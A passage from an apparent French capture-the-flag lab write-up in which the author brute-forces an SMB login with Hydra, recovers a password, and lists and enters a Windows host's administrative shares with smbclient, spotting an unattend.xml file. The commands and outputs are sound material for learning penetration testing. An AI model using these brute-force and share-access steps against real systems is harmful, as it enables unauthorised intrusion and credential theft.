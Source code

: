 On balance ensuite tout ça à Hydra sur le port SMB :  

```shellsession
$ hydra -l russel -P words.txt smb://10.1.1.15
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-02-23 15:00:07
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:1/p:25), ~25 tries per task
[DATA] attacking smb://10.1.1.15:445/
[445][smb] host: 10.1.1.15   login: russel   password: little5
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-02-23 15:00:10
```

Gamma
-----

On a alors accès au disque :  

```shellsession
$ smbclient -I 10.1.1.15 -U russel -L BETA
Enter WORKGROUP\russel's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.1.1.15 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available

$ smbclient -I 10.1.1.15 -U russel '//beta/c$'
Enter WORKGROUP\russel's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\beta\c$\
```

Cet accès est suffisant pour obtenir le flag de l'utilisateur (436bf1fd7f32f885a38d920f7e7ddedb).  

Mais... wait... que vois-je à la racine du shell ? Est-ce un oiseau? Est-ce un avion ? Mieux que ça c'est un fichier *unattend* :)  

```shellsession
smb: \> dir
  $Recycle.Bin                      DHS        0  Sun Sep 23 15:56:37 2018
  autoexec.bat                        A       24  Wed Jun 10 23:42:20 2009
  config.sys                          A       10  Wed Jun 10 23:42:20 2009
  Documents and Settings            DHS        0  Tue Jul 14 06:53:55 2009
  gogs                                D        0  Sun Sep 23 14:43:16 2018
  hiberfil.sys                      AHS 2415517696  Sat Sep 22 21:18:21 2018
  pagefile.sys                      AHS 3220692992  Sat Sep 22 21:18:21 2018
  PerfLogs                            D        0  Tue Jul 14 04:37:05 2009
  Program Files                      DR        0  Sun Sep 23 13:32:03 2018
  ProgramData                        DH        0  Sat Sep 22 22:30:48 2018
  Recovery                          DHS        0  Sat Sep 22 21:41:36 2018
  shell.exe                           A      341  Fri Feb 22 13:23:18 2019
  shellabc.exe                        A      341  Fri Feb 22 13:23:51 2019
  System Volume Information         DHS        0  Wed Feb 20 18:40:23 2019
  unattend.xml                        A     3578  Sun Sep 23 15:59:04 2018
  Users                              DR        0  Sun Sep 23 15:56:20 2018
  Windows                             D        0  Fri Feb 22 13:22:33 2019
  xampp                               D        0  Sat Sep 22 22:32:24 2018

```